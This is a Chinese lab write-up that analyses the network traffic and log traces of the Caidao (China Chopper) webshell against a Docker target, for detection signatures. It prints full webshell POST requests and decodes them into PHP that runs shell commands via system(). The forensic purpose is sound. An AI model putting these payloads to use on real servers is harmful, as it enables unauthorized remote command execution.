

更新时间：2025年06月24日18:00:37


# 文件结构


# 环境准备
分析机：Windows 10 

靶机：docker环境 192.168.13.1

攻击工具：菜刀 [https://github.com/raddyfiy/caidao-official-version](https://github.com/raddyfiy/caidao-official-version)

分析工具：网站访问日志access.log、wireshark


待分析菜刀版本：

chopper.exe：md5各版本校验码（仅exe主程序）: 

20111116 => 5001ef50c7e869253a7c152a638eab8a

# 启动方法
```python
docker-compose up -d --build
```


然后访问http://目标ip:8080端口


此时在access_logs目录下存在access.log文件，并有访问日志：


# 菜刀特征分析
按照提示，直接使用菜刀webshell工具连接，并在此过程中，抓包分析流量特征：


连接之后，执行命令操作以及文件操作：


此时抓包停止，准备分析包。

# 特征分析
## access.log日志
在连接之后，可以在日志里面看到连接shell的请求都是post请求，初版是没有ua请求信息的：


## 流量分析
### 第一段建立连接流量分析
分析wireshark抓包流量，过滤http请求：


追踪第34个包看下：





```python
POST /shell.php HTTP/1.1
X-Forwarded-For: 7.29.79.149
Referer: http://192.168.13.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.168.13.1:8080
Content-Length: 639
Connection: Close
Cache-Control: no-cache

pass=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs%3D&z1=L2Jpbi9zaA%3D%3D&z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtuZXRzdGF0IC1hbiB8IGdyZXAgRVNUQUJMSVNIRUQ7ZWNobyBbU107cHdkO2VjaG8gW0Vd
HTTP/1.1 200 OK
Date: Thu, 19 Jun 2025 03:39:42 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Vary: Accept-Encoding
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

<h3>.... Caidao Webshell .........</h3><p>................................................POST ............ <code>pass</code></p>->|/bin/sh: 1: netstat: not found
[S]
/var/www/html
[E]
|<-
```


从这里可以看到一句话木马的连接密码就是pass：


对其解码分析，首先经过url解码：

```python
pass=@eval(base64_decode($_POST[z0]));
z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
z1=L2Jpbi9zaA==
z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtuZXRzdGF0IC1hbiB8IGdyZXAgRVNUQUJMSVNIRUQ7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```


再经过base64解码，z0解码：

```python
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;
$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";
$r="{$p} {$c}";
@system($r." 2>&1",$ret);
print ($ret!=0)?"\nret={$ret}":"";;
echo("|<-");die();
```


z1解码：

```python
/bin/sh
```


z2解码：

```python
cd "/var/www/html";netstat -an | grep ESTABLISHED;echo [S];pwd;echo [E]
```


通过ai结合分析得知，解码后的代码是一个PHP Web Shell，接收Base64编码的POST参数z0、z1和z2，最终在服务器上执行Shell命令：

```python
cd "/var/www/html";netstat -an | grep ESTABLISHED;echo [S];pwd;echo [E]
```


输出网络连接信息和当前目录路径，标记为->|和|<-。

### 第二段命令执行流量分析
现在分析第56条流量，追踪一下看看：


```python

pass=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs%3D&z1=L2Jpbi9zaA%3D%3D&z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtkaXI7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```


url进行第一次解码：

```python
pass=@eval(base64_decode($_POST[z0]));
z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
z1=L2Jpbi9zaA==
z2=Y2QgIi92YXIvd3d3L2h0bWwvIjtkaXI7ZWNobyBbU107cHdkO2VjaG8gW0Vd
```


z0进行base64解码：

```python
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;
$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";
$r="{$p} {$c}";
@system($r." 2>&1",$ret);
print ($ret!=0)?"\nret={$ret}":"";;
echo("|<-");die();
```


z1解码：

```python
/bin/sh
```


z2解码：

```python
cd "/var/www/html";dir;echo [S];pwd;echo [E]
```


<font style="color:black;">最终执行的命令，在Linux系统上，PHP代码会构造并执行以下命令：</font>

```bash
/bin/sh -c "cd \"/var/www/html\";dir;echo [S];pwd;echo [E]" 2>&1
```

<font style="color:black;">这会：</font>

+ <font style="color:black;">切换到</font><font style="color:black;">/var/www/html</font><font style="color:black;">目录。</font>
+ <font style="color:black;">列出该目录下的文件和文件夹。</font>
+ <font style="color:black;">输出当前工作目录路径。</font>
+ <font style="color:black;">用</font><font style="color:black;">[S]</font><font style="color:black;">和</font><font style="color:black;">[E]</font><font style="color:black;">标记输出结果。</font>

从返回包上看，确实返回了执行的结果：


### 流量分析总结
由此可知，中国菜刀20111116版本的特征里面存在`z0`、`z1`、`z2`参数，此时还存在`QGluaV9zZXQo`这段字符，当然，该段字符并不一定不是中国菜刀独有的固定特征，但是可以作为辅助进一步判断。

# 实验结束
分析完成之后，使用：

```python
docker-compose down
```


